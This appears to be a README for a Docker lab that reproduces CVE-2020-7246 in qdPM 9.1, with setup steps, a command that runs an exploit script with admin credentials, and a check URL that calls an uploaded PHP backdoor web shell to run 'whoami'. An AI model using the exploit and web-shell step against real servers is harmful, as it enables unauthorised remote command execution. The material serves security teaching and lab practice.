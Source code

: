# CVE-2020-7246 (qdPM 9.1)

For educational purposes only.

See Reference for the details.


## Run
```
$ git clone https://github.com/arafatansari/QDPMSEC.git
$ cd QDPMSEC
$ docker build -t cve-assignment:ine .
$ docker run -it -p 80:80 cve-assignment:ine
```
## Installation

Checking Environment.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%201.jpg?raw=true)

Setting up SQL Server.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%201.jpg?raw=true)

Create Admin login/password.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/Installation%20Part%201.jpg?raw=true)

In order to exploit the webapp, you need to have atleast one more admin user. Create a new ADMIN user.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser.jpg?raw=true)

Add username, email and password. USE THESE CREDENTIALS in the below exploit parameters.
![setup](https://github.com/arafatansari/QDPMSEC/blob/main/images/CreateUser-2.jpg?raw=true)


## Exploit
```
$ python Exploit/exploit.py -url http://{target-ip}/qdpm/ -u test@localhost.com -p password
```

## Check (exploited)
```
$ http://{target-ip}/qdpm/uploads/users/xxxx-backdoor.php?cmd=whoami
```
